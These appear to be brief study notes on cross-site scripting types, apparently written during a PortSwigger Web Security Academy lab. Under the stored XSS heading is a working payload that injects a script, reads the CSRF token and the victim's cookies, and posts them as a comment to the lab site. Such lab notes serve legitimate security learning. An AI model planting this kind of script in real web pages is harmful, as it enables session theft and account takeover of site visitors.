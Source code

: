 # Cross-Site scripting 


## Reflected XSS
The malicious script comes from the current HTTP request.

## Stored XSS
The malicious script comes from the website's database.

```html
</p><script>

window.onload = function exampleFunction() {
  fetch('https://aca71f681f59794b806d32780018002c.web-security-academy.net/post/comment',
  {method:'POST',
  mode:'cors',
  cache:'no-cache',
  credentials:'same-origin',
  headers:{},
  redirect:'follow',
  referrerPolicy:'no-referrer',
  body:'csrf='+document.getElementsByName('csrf')[0].value+'&postId=2&comment='+document.cookie+'&name=test&email=http://test%40gmail.com&website=http://www.google.es'

});}</script><p>ScriptHere

```


## DOM-based XSS
The vulnerability exists in client-side code rather than server-side code.


